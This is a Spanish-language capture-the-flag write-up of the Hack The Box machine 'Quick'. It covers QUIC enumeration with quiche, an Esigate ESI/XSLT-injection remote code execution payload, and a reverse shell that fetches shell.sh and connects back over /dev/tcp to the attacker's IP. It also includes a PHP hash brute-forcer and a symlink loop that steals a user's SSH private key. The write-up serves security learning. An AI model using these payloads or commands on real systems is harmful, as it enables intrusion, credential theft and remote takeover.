


# Quick

**OS**: Linux \
**Dificultad**: Difícil \
**Puntos**: 40

## Resumen

- Quick UDP Internet Connections
- QUICHE Tool
- Mysql dump
- PHP Brute Force Password
- Printer symbolic link


## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.186`

```
Nmap scan report for 10.10.10.186
Host is up (0.085s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fb:b0:61:82:39:50:4b:21:a8:62:98:4c:9c:38:82:70 (RSA)
|   256 ee:bb:4b:72:63:17:10:ee:08:ff:e5:86:71:fe:8f:80 (ECDSA)
|_  256 80:a6:c2:73:41:f0:35:4e:5f:61:a7:6a:50:ea:b8:2e (ED25519)
9001/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Quick | Broadband Services
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`sudo nmap -sU -p 443 10.10.10.186`

```
Nmap scan report for quick.htb (10.10.10.186)
Host is up (0.083s latency).

PORT    STATE         SERVICE
443/udp open|filtered https
```

## Enumeración

Enumerando la página web nos encontramos con estas direcciones:

```
http://10.10.10.186:9001/login.php
https://portal.quick.htb/
http://10.10.10.186:9001/clients.php
```

Vemos que hay un nombre de dominio, lo agregamos a nuestro archivo **hosts** e intentamos acceder pero muestra error de conexión. Se realizaron diferentes ataques a la aplicación web pero ninguno tuvo éxito.

Después de hacer un escaneo a puertos UDP, nos encontramos un puerto 443 abierto. Investigando más sobre ese puerto podemos ver que está relacionado con un protocolo de red llamado [Quick UDP Internet Connections](https://es.wikipedia.org/wiki/QUIC). Existe una herramienta llamada [QUICHE](https://github.com/cloudflare/quiche) que nos permite interactuar con ese protocolo.

> Para instalar quiche es necesario hacer los siguientes pasos: \
    - sudo apt install cargo \
    - sudo apt install cmake \
    - sudo apt install golang \
    \
Dentro del directorio quiche: \
    - sudo git submodule update --init \
    - sudo cargo build --examples

## QUICHE

Utilizando quiche nos permite hacer peticiones a la aplicación web.

`sudo cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify https://portal.quick.htb/`


Podemos ver que hay tres rutas, la más importante de ellas **docs**, ya que hay 2 archivos PDF.

`sudo cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify https://portal.quick.htb/index.php?view=docs`


Descargamos el archivo **Connectivity.pdf**.

`sudo cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify https://portal.quick.htb/docs/Connectivity.pdf > ~/Quick/connect.pdf`


Al abrir el archivo nos encontramos con un password.


Si recordamos en la aplicación web hay nombres de usuarios pero el formulario de inicio de sesión nos pide un email por lo cual crearemos una lista de posibles email's con el siguiente formato [usuario@company.SLD.TLD](https://en.wikipedia.org/wiki/Second-level_domain), ya que es una forma común en que se generan correos empresariales.

Después de probar unos cuantos correos conseguimos el email correcto **elisa@wink.co.uk** e iniciamos sesión en la aplicación web.

`http://10.10.10.186:9001/login.php`


## ESIGate Exploit

Vemos que hay una opción llamada **Raise Ticket** que nos permite enviar tickets a la aplicación, capturando la petición con burpsuite podemos ver que existe un header **X-Powered-By: Esigate**.


Investigando sobre **Esigate** llegamos a este [articulo](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) que explica una vulnerabilidad llamada **XSLT-Injection**  y es posible obtener Remote Code Execution.

Primero verificaremos si recibimos respuesta del servidor mandando un ping en nuestro payload.

##### exploit.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[ping -c 1 10.10.15.21]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

Levantamos nuestro servidor web con nuestro archivo **xsl**, ponemos a la escucha nuestro **tcpdump** para saber si recibimos ping y mandamos nuestra petición.

- `sudo python3 -m http.server 8081`
- `sudo tcpdump -i tun0 icmp`
- `<esi:include src="http://10.10.15.21:8081/" stylesheet="http://10.10.15.21:8081/exploit.xsl"></esi:include>`


Vemos que se ejecutó correctamente nuestro payload.


Ahora crearemos un revesershell y la subiremos al sistema. **Es necesario cambiar el puerto después de cada petición**.

##### exploit.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget -O /tmp/shell.sh http://10.10.15.21:8086/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

##### shell.sh
```bash
bash -i >& /dev/tcp/10.10.15.21/1234 0>&1
```

- `sudo python3 -m http.server 8086`
- `<esi:include src="http://10.10.15.21:8086/" stylesheet="http://10.10.15.21:8086/exploit.xsl"></esi:include>`


Por último obtendremos nuestra reverse shell.

##### exploit.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[bash /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```

- `nc -lvnp 1234`
- `sudo python3 -m http.server 8087`
- `<esi:include src="http://10.10.15.21:8087/" stylesheet="http://10.10.15.21:8087/exploit.xsl"></esi:include>`


## Escalada de Privilegios (User)

### Mysql dump

Enumerando directorios nos encontramos con el archivo **dp.php** en **/var/www/html/** que contiene credenciales de la base de datos.

`cat /var/www/html/db.php`


Accediendo a la base de datos podemos ver el hash del usuario **srvadm**.

- `python -c "import pty;pty.spawn('/bin/bash')"`
- `mysql -D quick -u db_adm -p`
- `show tables;`
- `select * from users;`



Si abrimos el archivo **login.php** se visualiza la forma en que encripta el password.


### PHP Brute Force Password

Crearemos un script para generar hashes con una lista de posibles passwords y en el momento que las dos cadenas sean iguales obtendremos el password.

##### decrypt.php
```php
<?php
  $fn = fopen("/usr/share/wordlists/rockyou.txt","r");
  while(! feof($fn)) {
        $result = fgets($fn);
        $r = trim($result, "\n");
        $hash = md5(crypt($r,'fa'));
        if ($hash == 'e626d51f8fbfd1124fdea88396c35d05') {
                echo "results: " . $result;
        } else {
                echo '';
        }
  }
  fclose($fn);
?>
```

`php decrypt.php`


Obtuvimos el password pero no es posible conectarse por SSH y tampoco en el formulario anterior. Revisando la configuración de apache vemos que existe otro subdominio, lo agregamos a nuestro archivo **hosts** y accedemos a la página con las credenciales anteriores.

`cat /etc/apache2/sites-available/000-default.conf`


`http://printerv2.quick.htb:9001`


Podemos ver que tiene la opción de agregar impresora.


### Printer symbolic link

Si nos vamos al directorio **/var/www/printer** y leemos el archivo **job.php** podemos ver que toma los archivos a imprimir en la carpeta **/var/www/jobs** en la cual tenemos permisos para escribir y nos regresa el contenido.

`cat /var/www/printer/job.php`


`ls -la /var/www/`


Utilizaremos un script para crear un symbolic link de la llave privada del usuario **svradm** y que nos regrese el contenido al momento de imprimir.

##### id.sh
```bash
cd /var/www/jobs;
while true;
do
        for file in $(ls .);
        do
                rm -rf $file;
                ln -s /home/srvadm/.ssh/id_rsa $file;
        done
done
```

- `sudo python3 -m http.server 80`
- `wget http://10.10.15.21/id.sh`
- `chmod +x id.sh`



Creamos una nueva impresora.


Ponemos a la escucha nuestro netcat y ejecutamos el script.

- `nc -lvnp 9100`
- `./id.sh`


Le damos al icono de la impresora y nos arrojara un mensaje **Printer is up. Please add a job**. Veremos que nuestro nc a recibido una conexion. **En caso de que su netcat se cierre volver a levantarlo**.


Damos clic en la palabra **job**, le asignamos un job a la aplicación y hacemos clic en **print**.


Nuestro netcat recibió otra conexión pero ahora con la llave privada del usuario.


Copiamos la llave y nos conectamos por SSH.

- `chmod 400 id_rsa`
- `ssh -i id_rsa srvadm@10.10.10.186`


## Escalada de Privilegios (Root)

### Root password

En la ruta **/home/srvadm/.cache/conf.d/printers.conf** podemos ver un password que posiblemente pertenece al usuario root.

`cat /home/srvadm/.cache/conf.d/printers.conf`


`su root`


## Referencias
https://es.wikipedia.org/wiki/QUIC \
https://github.com/cloudflare/quiche \
https://en.wikipedia.org/wiki/Second-level_domain \
https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/